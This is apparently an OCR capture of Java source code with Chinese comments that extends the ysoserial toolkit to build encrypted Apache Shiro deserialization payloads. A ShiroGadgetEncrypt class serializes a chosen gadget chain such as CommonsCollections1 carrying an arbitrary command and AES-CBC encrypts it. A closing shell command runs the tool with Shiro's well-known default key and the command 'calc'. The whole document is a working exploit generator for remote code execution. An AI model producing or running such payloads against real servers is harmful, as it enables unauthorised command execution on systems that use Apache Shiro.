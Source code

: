 ```java
// 加密工具类
public class ShiroEncrypt {
    public static String shiroEncryptCBC(byte[] needEncrypt, String key) {
        AesCipherService aes = new AesCipherService();
        byte[] byteKey =
            java.util.Base64.getDecoder().decode(key);
        ByteSource ciphertext = aes.encrypt(needEncrypt, byteKey);
        return ciphertext.toString();
    }

    // TODO
    public static String shiroEncryptGCM(byte[] needEncrypt, String key) {
        return null;
    }
}

// exploit模块下添加类生成加密payload
import ysoserial.Serializer;
import ysoserial.payloads.CommonsCollections1;
import ysoserial.payloads.ObjectPayload;
import ysoserial.payloads.util.ShiroEncrypt;

public class ShiroGadgetEncrypt {
    public static void main(String[] args) throws Exception {
        // 处理传入参数，key 加密模式 (CBC,GCM) gadget链 命令
        final String key = args[0].trim();
        final String encryptMode = args[1].trim();
        final String gadget = CommonsCollections1.class.getPackage().getName() +  "." +  args[2].trim();
        final String command = args[3].trim();

        final Class<? extends ObjectPayload> payloadClass = (Class<? extends ObjectPayload>) Class.forName(gadget);
        ObjectPayload payloadObj = payloadClass.newInstance();
        Object payload = payloadObj.getObject(command);
        byte[] ser = Serializer.serialize(payload);

        String encryptString;
        if (encryptMode.equals("CBC")){
            encryptString = ShiroEncrypt.shiroEncryptCBC(ser,key);
            System.out.println(encryptString);
        }else if(encryptMode.equals("GCM")){
            // TODO
        }else {
            System.out.println("Unknown encrypt mode: " + encryptMode);
        }
    }
}
```

```shell
# 参数：秘钥 加密模式 gadget command
java -cp ysoserial-all.jar ysoserial.exploit.ShiroGadgetEncrypt kPH+bIxk5D2deZiIxcaaaA== CBC CommonsCollections1 calc
```
